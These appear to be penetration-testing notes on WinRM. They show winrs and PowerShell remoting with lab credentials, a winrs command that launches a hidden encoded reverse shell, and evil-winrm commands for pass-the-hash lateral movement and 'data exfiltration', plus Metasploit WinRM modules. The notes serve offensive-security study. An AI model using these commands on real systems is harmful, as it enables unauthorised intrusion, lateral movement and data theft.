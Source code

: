 # Windows Remote Management (WinRM)

WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

TCP port 5985 and 5986 (HTTPS)

- <https://en.wikipedia.org/wiki/WS-Management>


Is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems on the internet.
- Manage and configure Windows systems remotely.

WinRM implements access control and security for communication between systems through various forms of authentication.


*For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.*














## winrs
```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
# Output:
FILES04
corp\jen
```


To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with a base64 encoded reverse-shell.

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e [ENCODED SHELL]"
```





### PSSession

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID:
```
Enter-PSSession 1
whoami
hostname
# Output:
corp\jen
FILES04
```




#### More commands

Execute a Command in the PSSession: Use Invoke-Command to run a command on the remote machine using the session you created.
```
# Execute a command on the remote computer
Invoke-Command -Session $session -ScriptBlock { Get-Process }

```


Interact with the Remote Session: You can also enter the session to interact with it directly.
```
# Enter the remote session
Enter-PSSession -Session $session

```


Exit and close the session:

```
# Exit the remote session
Exit-PSSession

# Remove the PSSession
Remove-PSSession -Session $session


```





















## Evil-Winrm

- <https://github.com/Hackplayers/evil-winrm>

We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


> menu



# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"


# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"


```


























## MSF

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true